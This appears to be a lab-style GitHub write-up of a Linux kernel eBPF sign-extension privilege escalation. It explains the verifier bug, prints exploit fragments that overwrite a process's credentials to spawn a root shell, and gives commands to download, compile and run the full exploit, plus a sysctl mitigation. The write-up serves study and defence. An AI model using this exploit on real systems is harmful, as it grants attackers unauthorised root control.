 # Linux Kernel - BPF Sign Extension Local Privilege Escalation

![alt text](https://github.com/samaleyadeh/images/blob/master/DY42GCGV4AA1_8F.jpg) 

This vulnerability was caused by a bug in the linux kernel that allowed sign extension from a signed 32-bit integer to an unsigned 64-bit integer, bypassing eBPF verifier and leading to local privilege escalation. The check_alu_op function in kernel/bpf/verifier.c in the Linux kernel allows local users to cause a denial of service (memory corruption) or possibly have unspecified other impact by leveraging incorrect sign extensions.

This could occur due to the fact taht before each of the BPF program runs, two passes of verifications are conducted to ensure its correctness. The first pass check_cfg() ensures the code is loop-free using depth-first search. The second pass do_check() runs a static analysis to emulate the execution of all possible paths derived from the first instruction. The program will be terminated if any invalid instruction or memory violation is found.

In the exploit, a set of BPF instructions are carefully crafted to bypass this filtering process through an unintentional sign extension from 32 bits to 64 bits. As a result, a few lines of malicious code could be attached and get executed in the kernel space, resulting in a hack refered to as privilege escalation explained below. 

This vulnerability allowed attacker to have full control of the system with root access. The low complexity of the attack and low privileges required to perform this exploit made it high priority. 

It affected specific versions of linux based system, but given that Ubuntu has a large number of users around the world, especially public cloud users, the vulnerability had the potetional to cause diruptions at a significant scale for both corporate and individual users.

### Vulnerability Overview and Impact
Linux Kernel Version: 4.14 - 4.4 (mainly Ubuntu and Debian)
CVSS v3 Score: 7.8 (Severity: high)
Confidentiality: High
Integrity: High
Authority: High


## [What is Sign Extension?](https://en.wikipedia.org/wiki/Sign_extension)

Is a simple process by wich the represetnation of a value in memory is changed from a lower number of bits to a higher number of bits while preserving its content and sign in the process as illistrated in the figure above

![alt text](https://github.com/samaleyadeh/images/blob/master/sign-extension.jpg) 


## [What is Privilege Escalation](https://en.wikipedia.org/wiki/Privilege_escalation)
![alt text](https://github.com/samaleyadeh/images/blob/master/300px-Priv_rings.svg.png?raw=true) 

In this form of attacks the aim is to raise the abilities and access of the attacker from the intrusion level to higher abilites with the ultimate goal of gaining root access.

## [What is BPF](https://en.wikipedia.org/wiki/Berkeley_Packet_Filter)?

As you may know, the user layer and kernel layer of Linux are isolated. If you want the kernel to execute the user's code, you need to write the kernel module which can only be loaded by the root user. The BPF (Berkeley Packet Filter) provides a bridge between code and data transfer between the user and the kernel. The user can use the eBPF instruction bytecode to deliver code to the kernel, and trigger the kernel to execute the user-provided code through events (such as writing data to the socket), and share the data with the kernel in the form of map (key - value). The user layer writes data to the map, and the kernel layer fetches data from the map, and vice versa. 
The original intention of BPF is to filter the network at the bottom, and later it can easily inject code into the kernel. It is widely used for packet capture, kernel probe, Performance monitoring and other fields. 
eBPF virtual instruction system
The eBPF virtual instruction system belongs to Reduced Instruction Set Computer (RISC) and has 10 64-bit virtual registers, r0-r10. r0 stores the return value, r1 to r5 is reserved for arguments, r6 to r9 is reserved for storing callee saved registers and r10 stores read-only frame pointer. In actual operation, the virtual machine corresponds these 10 registers to the 10 physical registers of the hardware CPU: R0 - rax, R1 - rdi , R2 - rsi , R3 - rdx , R4 - rcx , R5 - r8 , R6 - rbx , R7 - r13 , R8 - r14 , R9 - r15 , R10 – rbp(frame pointer).
Each BPF instruction on x64 platform is of 64-bit long. The format of each instruction is as follows:

![alt text](https://github.com/samaleyadeh/images/blob/master/zero-day-attack-1024x413.jpg) 

```C
Struct bpf_insn { 
    __u8 code;         /* opcode */ 
    __u8 dst_reg: 4 ;     /* dest register */ 
    __u8 src_reg: 4 ;     /* source register */ 
    __s16 off;         /* signed offset */ 
    __s32 imm;         /* signed immediate constant */ 
};
```
For example, a simple x86 assignment instruction: mov eax, 0xffffffff, the corresponding BPF instruction is: BPF_MOV32_IMM (BPF_REG_2, 0xFFFFFFFF), and its corresponding data structure is:


```C

#define BPF_MOV32_IMM(DST, IMM) \ 
    (( struct bpf_insn) { \ 
        .code   = BPF_ALU | BPF_MOV | BPF_K, \ 
        .dst_reg = DST, \ 
        .src_reg = 0 , \ 
        .off    = 0 , \ 
        .imm    = IMM })

```
Its value in memory is: ``` \xb4\x09\x00\x00\xff\xff\xff\xff ```

In conclusion, 
1. eBPF virtual instruction system is a RISC instruction system, that is, each instruction size is the same; 
2. Its virtual 10 registers correspond 10 physical cpu registers, and the function is similar. For example, the r10 register of the BPF and the rbp point to the stack, and r0 is used for the return value.


```C
uint64_t fp, sp, task_struct, credptr, uidptr;

	fp = __get_fp();
	if (fp < PHYS_OFFSET)
		__exit("bogus fp");
	
	sp = get_sp(fp);
	if (sp < PHYS_OFFSET)
		__exit("bogus sp");
	
	task_struct = __read(sp);

	if (task_struct < PHYS_OFFSET)
		__exit("bogus task ptr");

	printf("task_struct = %lx\n", task_struct);
```


```C
	credptr = __read(task_struct + CRED_OFFSET); // cred

	if (credptr < PHYS_OFFSET)
		__exit("bogus cred ptr");

	uidptr = credptr + UID_OFFSET; // uid
	if (uidptr < PHYS_OFFSET)
		__exit("bogus uid ptr");

	printf("uidptr = %lx\n", uidptr);
	__write(uidptr, 0); // set both uid and gid to 0

	if (getuid() == 0) {
		printf("spawning root shell\n");
		system("/bin/bash");
		exit(0);
	}

	__exit("not vulnerable?");
}
```

## Reproducing the vulnerability

1. Install Ubuntu16.04 on Virtualbox
Download from: http://old-releases.ubuntu.com/releases/16.04.0/ 
version downloaded by me: ubuntu-16.04.3-server-i386.iso

2. Change to another version

```sudo apt-get install linux-headers-4.4.0.116-generic linux-image-4.4.0.116-generic```

3. Edit “grub.cfg” to make sure the linux version has been changed

```nano /boot/grub/grub.cfg```

4. Reboot, download and compile the code.

```sudo apt-get install gcc```

```wget https://raw.githubusercontent.com/LiYangHart/Hacking_Project2/master/upstream44.c```

```gcc –o test upstream44.c```

```./test```

```id```

## Fixing the vulnerability
The users can limit the use of bpf system calls to restrict ordinary users by modifying kernel parameters:
Set the parameter ```kernel.unprivileged_bpf_disabled = 1``` to prevent this privilege escalation by restricting access to bpf.

```echo 1 > /proc/sys/kernel/ unprivileged_bpf_disabled```
![alt text](https://github.com/samaleyadeh/images/blob/master/5-3.png) 

we can run the exploit again with the privileges of a normal user to check the if the exploit is there or not. as shown in the figure.
![alt text](https://github.com/samaleyadeh/images/blob/master/5-4.png) 

